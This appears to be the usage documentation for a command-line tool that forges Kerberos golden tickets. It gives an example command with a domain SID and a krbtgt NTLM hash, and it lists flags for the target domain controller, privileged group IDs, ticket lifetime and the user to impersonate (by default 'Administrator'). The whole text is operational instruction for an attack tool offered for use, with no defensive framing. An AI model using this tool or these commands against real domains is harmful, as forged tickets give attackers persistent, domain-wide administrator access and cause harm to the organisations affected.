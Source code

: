 ### Kerberos golden ticket generation script

**Required: -domain, -sid, -krbtgt**

Example: 
```bash
./golden -domain CONTOSO.COM -sid S-1-5-21-1234567890-1234567890-1234567890-500 -krbtgt aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

`-dc` Domain Controller FQDN (e.g., dc1.contoso.com)

`-domain` Domain name (e.g., contoso.com)

`-duration` Ticket validity in hours (default 10)

`-groups` Group IDs (comma separated) (default "513,512,520,518,519")

`-id` User ID (RID) (default 500)

`-krbtgt` NTLM hash of krbtgt account

`-out` Output file (default: stdout)

`-sid` User's SID (e.g., S-1-5-21-1234567890-1234567890-1234567890-500)

`-user` Username to impersonate (default "Administrator")
